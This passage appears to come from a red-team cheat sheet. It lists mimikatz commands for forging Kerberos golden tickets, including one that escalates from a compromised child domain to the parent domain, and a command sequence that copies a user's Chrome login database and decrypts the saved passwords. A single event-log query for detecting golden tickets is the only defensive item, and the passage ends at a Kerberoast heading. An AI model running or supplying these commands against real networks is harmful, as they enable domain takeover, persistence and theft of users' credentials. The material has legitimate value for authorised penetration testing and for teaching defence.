 ```
    mimikatz kerberos::golden /user:newadmin /domain:domain.com /sid:S-1-5-21-3683589091-3492174527-1688384936 /groups:501,502,513,512,520,518,519 /krbtgt:<krbtgthash> /ticket:newadmin.tkt
```

Golden Ticket Creation (Pass-The-Ticket) - Create the ticket for your current session

```
    mimikatz kerberos::golden /user:newadmin /domain:domain.com /sid:S-1-5-21-3683589091-3492174527-1688384936 /krbtgt:<krbtgthash> /ptt
```

To create a Golden ticket to own the parent domain, once a child domain controller is compromised you will need the following pieces:

```
    /user:ChildDomainControllerMachineName$  
    /rc4: KRBTGT Hash
    /sid:Child Domain SID
    /domain:FQDN of Child Domain
    /groups:516
    /sids:ParentSID-516,S-1-5-9
    /id:ID of Child Domain Controller
    /ptt
```

Dump Google Chrome passwords

```
    shell copy "C:\users\kobrien\appdata\local\google\chrome\user data\default\Login Data" C:\users\public\libraries\ld.dat

    steal_token <user pid>

    mimikatz @dpapi::chrome /in:C:\users\public\libraries\ld.dat /unprotect
```

Detecting Golden Ticket use on a DC

```
    <QueryList>
      <Query Id="0" Path="Security">
        <Select Path="Security">
            *[System[EventID='4768']]
            and
            *[EventData[Data[@Name='TargetUserName'] != 'ANONYMOUS LOGON']]
            and
            *[EventData[Data[@Name='ServiceName'] = 'krbtgt']]
            and
            *[EventData[Data[@Name='TicketEncryptionType'] = '0x17']]
            </Select>
      </Query>
    </QueryList>
```

### Kerberoast
